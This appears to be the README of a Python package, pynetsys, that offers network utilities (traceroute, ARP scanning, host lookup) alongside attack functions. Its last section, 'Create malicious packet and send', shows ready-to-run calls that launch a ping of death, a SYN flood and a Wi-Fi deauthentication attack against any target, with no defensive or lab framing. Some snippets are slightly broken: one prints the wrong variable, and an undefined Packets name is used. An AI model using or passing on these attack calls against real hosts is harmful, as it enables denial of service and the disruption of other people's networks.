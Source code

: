 # PYNETSYS

pynetsys is a collection of tools and malicious packets.

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

----------------

isonline = pynetsys.isOnline("python.org") --> bool
print(isonline)

haswebprotocol = pynetsys.hasWebProtocol("http:\\python.org") --> bool
OR
haswebprotocol = pynetsys.hasWebProtocol("python.org") --> bool 
print(haswebprotocol)

hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("https:\\python.org") --> bool
OR
hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("python.org") --> bool 
print(hasSSLwebprotocol)

addwebprotocol = pynetsys.addWebProtocol("python.org") --> bool 
print(addwebprotocol)

removewebprotocol = pynetsys.removeWebProtocol("https:\\python.org") --> bool 
OR
removewebprotocol = pynetsys.removeWebProtocol("http:\\python.org") --> bool 
print(removewebprotocol)
```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```
